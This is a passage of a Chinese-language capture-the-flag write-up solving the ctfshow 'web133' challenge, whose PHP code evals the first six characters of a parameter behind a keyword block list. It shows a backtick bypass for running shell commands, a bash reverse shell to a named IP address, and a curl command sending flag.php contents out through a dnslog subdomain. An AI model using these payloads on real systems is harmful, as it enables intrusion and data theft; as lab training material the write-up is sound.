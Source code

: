 > ||的优先级低于&&
>
> mt_rand()函数用于生成随机数

![image-20221005154826719](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051548474.png?x-oss-process=hzy)

可以看到只需要满足username=‘admin’就可以

![image-20221005155034805](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051550888.png?x-oss-process=hzy)

# web133

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 16:43:44

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

> substr函数返回指定长度的内容

这里就是把传参内容的前六个字符返回，所以直接?F=`$F` ;即可绕过然后后面执行命令

> ?F=`$F`; =》 ?F=``$F`;`; //第一次的$F是php变量，第二次的$F属于shell里的，所以不会无限套娃，里面`$F`;在shell里执行为空，linux里``也不回显，也不存在$F变量，没有任何输出

![image-20221005155805879](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051558959.png?x-oss-process=hzy)

发现可以执行命令但是没回显，需要外带，bash失败，用curl

```
bash -i >& /dev/tcp/43.138.40.212/7777 0>&1
```

```
?F=`$F`; curl `cat flag.php|grep "flag"`.mp0kz9.dnslog.cn
```
